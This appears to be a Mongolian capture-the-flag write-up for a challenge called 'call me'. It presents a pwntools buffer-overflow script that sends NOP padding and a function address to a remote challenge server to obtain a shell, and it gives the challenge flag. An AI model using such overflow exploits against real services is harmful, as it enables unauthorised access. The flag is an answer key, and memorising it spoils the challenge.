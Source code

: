 ## call me

`nc 218.100.84.106 9005` дээр хавсралт дээрх elf ажиллаж байгаа болно.

> **By reamb**

## Writeup

Энгийн **Buffer Overflow** ашиглан энэ даалгаварыг амархан биелүүлэх боломжтой.

```python
from pwn import *

# 218.100.84.106 9005
r = remote('218.100.84.106', 9005)

nop = shellcraft.i386.nop()
call_me_address = 0x8048d54

r.send((asm(nop) * 132) + p32(call_me_address))
r.interactive()
```

Дээрх скриптийг ажиллуулахад **command line shell** (Interactive mode буюу`/bin/bash`) рүү орно.
Эндээс `ls`, `cat` коммандуудыг ашиглан тугийг харах боломжтой.

```
Туг: HZ{ROP_ROP_ROP_ROP}
```
